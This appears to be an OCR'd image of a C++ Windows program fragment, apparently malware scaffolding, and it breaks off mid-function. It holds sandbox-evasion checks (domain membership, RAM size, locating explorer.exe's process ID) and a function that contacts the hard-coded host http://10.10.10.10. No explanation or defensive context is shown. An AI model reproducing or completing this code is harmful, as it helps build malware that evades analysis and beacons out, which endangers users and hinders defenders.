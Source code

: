 ```cpp
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#include <lm.h>
#include <wchar.h>
#pragma comment(lib, "urlmon.lib")
#pragma comment(lib, "netapi32.lib")

using namespace std;

DWORD GetExplorerPID() {
    PROCESSENTRY32W entry;
    entry.dwSize = sizeof(PROCESSENTRY32W);

    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
    if (snapshot == INVALID_HANDLE_VALUE) {
        return 0;
    }

    if (!Process32FirstW(snapshot, &entry)) {
        CloseHandle(snapshot);
        return 0;
    }

    do {
        if (wcscmp(entry.szExeFile, L"explorer.exe") == 0) {
            CloseHandle(snapshot);
            return entry.th32ProcessID;
        }
    } while (Process32NextW(snapshot, &entry));

    CloseHandle(snapshot);
    return 0;
}

BOOL isDomainJoined() {
    LPBYTE buffer = NULL;
    NET_API_STATUS status = NetGetDCName(NULL, NULL, (LPBYTE*)&buffer);
    if (status == NERR_Success) {
        NetApiBufferFree(buffer);
        return TRUE;
    }
    return FALSE;
}

BOOL memoryCheck() {
    MEMORYSTATUSEX statex;
    statex.dwLength = sizeof(statex);
    if (!GlobalMemoryStatusEx(&statex)) {
        return FALSE;
    }
    return (statex.ullTotalPhys >= (1ULL * 1024 * 1024 * 1024));
}

void sendHTTPRequest() {
    const char* url = "http://10.10.10.10";
    IStream* stream = NULL;
    if (SUCCEEDED(URLOpenBlockingStreamA(NULL, url, &stream, 0, NULL))) {
        stream->Release();
```